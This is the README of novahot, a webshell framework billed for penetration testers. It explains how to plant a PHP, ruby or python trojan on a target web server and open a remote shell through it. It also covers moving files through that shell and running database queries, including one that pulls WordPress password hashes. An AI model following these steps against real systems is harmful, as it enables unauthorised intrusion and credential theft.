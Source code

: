 [![Build Status](https://travis-ci.org/chrisallenlane/novahot.svg)](https://travis-ci.org/chrisallenlane/novahot)
[![npm](https://img.shields.io/npm/v/novahot.svg)]()
[![npm](https://img.shields.io/npm/dt/novahot.svg)]()
[![Known Vulnerabilities](https://snyk.io/test/npm/novahot/badge.svg)](https://snyk.io/test/npm/novahot)


novahot
=======
`novahot` is a webshell framework for penetration testers. It implements a
JSON-based API that can communicate with trojans written in any language. By
default, it ships with trojans written in PHP, ruby, and python.

Beyond executing system commands, `novahot` is able to emulate interactive
terminals, including `mysql`, `sqlite3`, and `psql`. It additionally implements
"virtual commands" that make it possible to upload, download, edit, and view
remote files locallly using your preferred applications.


Installation
------------
Install the executable directly from npm:

```sh
[sudo] npm install -g novahot
```

Then seed a config file:

```sh
novahot config > ~/.novahotrc
```


Usage
-----
1. View the available trojans with `novahot trojan list`.

2. Select a trojan in a language that is appropriate for your target, then copy
   its source to a new file. (Ex: `novahot trojan view basic.php > ~/my-trojan.php`)

3. Change the control password in the newly-created trojan.

4. Upload the trojan to a web-accessible location on the target.

5. Configure target information in the `targets` property in `~/.novahotrc`.

6. Run `novahot shell <target>` to open a shell.


Shell Modes
-----------
Internally, `novahot` uses "modes" and "adapters" to emulate various
interactive clients, currently including the `mysql`, `psql` (postgres), and
`sqlite3` clients.

To change `novahot`'s mode, issue the appropriate "dot command":

```sh
.mysql { "username" : "mysql-user", "password" : "the-password", "database" : "the-database" }
```

(Connection parameters may be specified as JSON while changing modes, or
alternatively saved as target configuration data in `~/.novahotrc`.)

For example, the `mysql` mode makes it possible to directly run queries like
the following:

```sql
mysql> SELECT ID, user_login, user_email, user_pass FROM wp_users;
```

There additionally exists a `payload` mode that can be used to `POST` arbitrary
data to the trojan. [See the wiki for more information][payload-mode].


Virtual Commands
----------------
`novahot` implements four "virtual commands" that utilize payloads built in
to the trojans to extend the functionality of the shell:

### download ###
```sh
download <remote-filename> [<local-filename>]
```

Downloads `<remote-filename>` to `--download-dir`, and optionally renames it to
`<local-filename>` if specified.

### upload ###
```sh
upload <local-filename> [<remote-filename>]
```

Uploads `<local-filename>` to the shell's `cwd`, and optionally renames
`<local-filename>` to `<remote-filename>` if specified.

### view ###
```sh
view <remote-filename> [<local-filename>]
```

Downloads `<remote-filename>` to `--download-dir`, and optionally renames it to
`<local-filename>` After downloading, the file will be opened by the "viewer"
application specified in the [configs][configuration].

### edit ###
```sh
edit <remote-filename>
```

Downloads `<remote-filename>` to a temporary file, and then opens that file for
editing using the "editor" specified in the [configs][configuration].
Afterward, if changes to the file are saved locally, the file will be
re-uploaded to the server automatically.


Additional Information
----------------------
Additional information can be found in the [wiki][]:

- [Configuration][configuration]
- [The Client/Trojan API][api]
- [sqlite3 "dot command" conflicts][sqlite-dotcommands]

[api]: #todo
[configuration]: #todo
[payload-mode]: #todo
[sqlite-dotcommands]: #todo
[wiki]: #todo
